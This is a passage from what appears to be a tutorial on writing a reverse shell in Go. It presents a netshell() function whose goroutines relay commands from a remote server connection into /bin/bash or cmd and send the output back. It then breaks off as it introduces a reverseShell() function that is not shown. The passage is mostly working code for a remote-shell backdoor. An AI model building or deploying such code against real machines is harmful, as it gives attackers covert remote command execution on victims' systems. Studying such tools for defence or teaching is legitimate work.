 Next implement `netshell()` which have two goroutines, one for reading server's command to `recv`, one for reading command's output from `send` and send it to server

```go
func netshell(conn net.Conn, send chan []byte, recv chan []byte) {
  // log to terminal when this function start and return
  fmt.Printf("[+] Start net shell\n")
  ctx, cancel := context.WithCancel(context.Background())
  defer func() {
    cancel()
    fmt.Printf("[*] Exiting net shell\n")
  }()
  // Goroutine that read from server and write it to channel recv
  go func() {
    for {
      buf := make([]byte, 4096)
      conn.Read(buf)
      command := bytes.Trim(buf, "\x00")
      fmt.Printf("[*] read: %s, len %d\n", command, len(command))
      // Exit this goroutine and call ctx.Done() to shut down the goroutine below
      if bytes.Equal(command, []byte("exit")) {
        recv <- []byte("exit\n")
        ctx.Done()
        return
      }
      recv <- command
    }
  }()
  // Goroutine that read from channel send and send the result to server
  // If the function returns, meaning the cmd.Run() exit
  // then shut down this goroutine
  go func() {
    for {
      select {
      case <-ctx.Done():
        return
      case outgoing := <-send:
        conn.Write(outgoing)
      }
    }
  }()
  // Check windows/linux
  shellpath := "/bin/bash"
  if runtime.GOOS == "windows" {
  	shellpath = "cmd"
  }
  reverseShell(shellpath, send, recv)
}
```

Finally we complete this program by finishing the `revershell()`, where we will deal with `stdin`, `stdout`,`stderr`
